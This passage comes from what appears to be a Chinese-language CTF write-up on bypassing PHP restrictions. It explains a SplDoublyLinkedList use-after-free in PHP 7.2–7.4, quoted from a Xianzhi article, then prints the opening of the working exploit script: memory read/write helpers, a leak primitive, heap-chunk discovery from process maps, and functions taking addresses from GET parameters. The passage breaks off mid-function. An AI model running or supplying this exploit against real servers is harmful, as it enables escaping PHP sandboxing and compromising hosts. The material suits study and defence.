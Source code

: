 利用的话 exp 或者蚁剑上都有利用插件了，这里不多讲，可以上 ctfhub 测试。

### SplDoublyLinkedList UAF

#### 概述

这个 UAF 是在先知上看到的，引用原文来概述：

> 可以看到，删除元素的操作被放在了置空 traverse_pointer 指针前。
> 
> 所以在删除一个对象时，我们可以在其构析函数中通过 current 访问到这个对象，也可以通过 next 访问到下一个元素。如果此时下一个元素已经被删除，就会导致 UAF。
> 
> PHP 部分（仅在 7.4.10、7.3.22、7.2.34 版本测试）

#### exp

exp 同样出自原文。

php 部分：

```
<?php
error_reporting(0);
$a = str_repeat("T", 120 * 1024 * 1024);
function i2s(&$a, $p, $i, $x = 8) {
    for($j = 0;$j < $x;$j++) {
        $a[$p + $j] = chr($i & 0xff);
        $i >>= 8;
    }
}
function s2i($s) {
    $result = 0;
    for ($x = 0;$x < strlen($s);$x++) {
        $result <<= 8;
        $result |= ord($s[$x]);
    }
    return $result;
}
function leak(&$a, $address) {
    global $s;
    i2s($a, 0x00, $address - 0x10);
    return strlen($s -> current());
}
function getPHPChunk($maps) {
    $pattern = '/([0-9a-f]+\-[0-9a-f]+) rw\-p 00000000 00:00 0 /';
    preg_match_all($pattern, $maps, $match);
    foreach ($match[1] as $value) {
        list($start, $end) = explode("-", $value);
        if (($length = s2i(hex2bin($end)) - s2i(hex2bin($start))) >= 0x200000 && $length <= 0x300000) {
            $address = array(s2i(hex2bin($start)), s2i(hex2bin($end)), $length);
            echo "[+]PHP Chunk: " . $start . " - " . $end . ", length: 0x" . dechex($length) . "\n";
            return $address;
        }
    }
}
function bomb1(&$a) {
    if (leak($a, s2i($_GET["test1"])) === 0x5454545454545454) {
        return (s2i($_GET["test1"]) & 0x7ffff0000000);
    }else {
        die("[!]Where is here");
    }
}
function bomb2(&$a) {
    $start = s2i($_GET["test2"]);
```